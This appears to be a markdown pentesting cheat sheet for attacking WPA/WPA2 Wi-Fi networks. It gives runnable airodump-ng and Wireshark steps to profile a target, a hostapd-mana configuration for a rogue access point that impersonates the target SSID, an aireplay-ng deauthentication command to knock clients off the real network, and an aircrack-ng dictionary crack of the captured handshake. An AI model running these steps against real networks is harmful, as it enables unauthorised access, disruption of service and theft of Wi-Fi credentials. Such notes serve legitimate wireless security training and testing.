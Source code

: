 #### Discovery

```
sudo airodump-ng -w discovery --output-format pcap wlan1mon
```

Identify:
- Target SSID
- AUTH
- Cipher
- Channel
- Mbits (MB)
- 2.4Ghz or 5Ghz

Deduce the 802.11 protocol in use.

airodump-ng only shows the highest encryption possible, so use Wireshark to check for WPA1 for example.

Display only beacon packets and specific SSID by using this filter: 
```
wlan.fc.type_subtype == 0x08 && wlan.ssid == "MySSID". # for beacon requests
wlan.fc.type_subtype == 0x04 # for probe requests
```

Still in Wireshark, review:

- IEEEE 802.11Wireless Management 
  - Tagged Parameters
    - Vendor Specific: Microsoft Corp.: WPA Information Element = AP supports WPA1
    - RSN Information = AP supports WPA2
    - Then, check for configuration.
      - Multicast
      - Unicast/Pairwise : TKIP/CCM(AES)?
      - Auth Key Management configuration : Confirm PSK ?


#### Creating Rogue AP

```
sudo apt install hostapd-mana
```

Example mana conf file when encryption details are not specified:
```
interface=wlan0
ssid=TheSSID
channel=6

hw_mode=g  # g for 2,4Ghz ; a if 5Ghz
ieee80211n=1 # By default, hostapd-mana will run in 802.11b

wpa=3 # 3 for both wpa1 and wpa2 ; 1 for only wpa1 ; 2 for only wpa2
wpa_key_mgmt=WPA-PSK # enable PSK authentication
wpa_passphrase=ANYPASSWORD # irrelevant, since we are only attempting to capture ahandshake

wpa_pairwise=TKIP CCMP # encryption with WPA1
rsn_pairwise=TKIP CCMP	# encryption with WPA2
# Cipher suite for multicast traffic is automatically set by hostapd-mana

mana_wpaout=TheSSID.hccapx # location to save the captured handshake
```

More parameters : https://github.com/sensepost/hostapd-mana/blob/master/hostapd/hostapd.conf

#### Capturing handshake

```
sudo hostapd-mana SSID-mana.conf
```

If the signal of the rogue AP is stronger than the target, the device will attempt to connect and the handshake will be captured. Otherwise, we can send deauth messages.

```
sudo aireplay-ng -0 1 -a <BSSID_LEGITIMATE_AP> -c <STATION_MAC_ADDRESS> wlan1mon
```

#### Cracking

```
aircrack-ng SSID.hccapx -e SSID -w /usr/share/john/password.lst
```
